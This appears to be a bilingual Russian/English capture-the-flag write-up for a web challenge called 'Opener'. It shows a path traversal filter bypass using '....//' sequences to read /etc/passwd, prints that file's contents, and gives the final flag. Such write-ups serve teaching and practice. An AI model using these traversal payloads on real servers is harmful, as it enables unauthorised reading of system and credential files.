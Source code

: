 # Opener

> Кажется, в этой функции передачи картинок что-то не так...

---

> There seems to be something wrong with this picture transfer function...

## Решение / Solution

Каждая загрузка страницы показывает новую картинку. Можно сразу приступить к рассматриванию
исходного кода *(фрагмент воссоздан по памяти)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

Естественным решением данной задачи является Path (Directory) Traversal Attack. Для этого попытаемся
попробовать достучаться до хорошо знакомого `/etc/passwd`.

```url
/files?file=/../../../../etc/passwd
```

Данный путь не работает. Были конечно сомнения, что это не тот эксплоит, но стоило попробовать еще
покопаться. Используя [методы предложенные HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
был получен данный путь:

```url
/files?file=/....//....//....//....//etc/passwd
```

В каждом `....//` сервер находит `../` (`..(../)/`), после удаления оставляя `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Дальше ручным перебором (не лучшее решение со стороны автора задания) получился путь к флагу:

```url
/files?file=/....//flag.txt
```

Флаг:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```

---

Every page load shows a new image. Let's instantly begin investigating the source code
*(code fragment is recreated by memory)*:

```html
<script>
    ...fetch("/files?file=" + file)...
</script>
```

A natural solution of this task is Path (Directory) Traversal Attack. For this let's try to knock at
the well-known `/etc/passwd` file.

```url
/files?file=/../../../../etc/passwd
```

This path did not work. There were some doubts whether this is the correct exploit, but it was worth
investigating a bit more. Using [methods suggested by HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#filter-bypass-tricks),
following path has been constructed:

```url
/files?file=/....//....//....//....//etc/passwd
```

In every `....//` server finds `../` (`..(../)/`), after deleting it leaves `../`.

```passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:@:sync:/sbin:/bin/sync
shutdown:x:6:@:shutdown:/sbin:/sbin/shutdown
halt:x:7:@:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:8:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue: /sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
```

Next a manual brute-force (not the best decision by the task author) gave a following path:

```url
/files?file=/....//flag.txt
```

Flag:

```plain
grodno{P47H_7RAV3r54L_NO_HOMo}
```
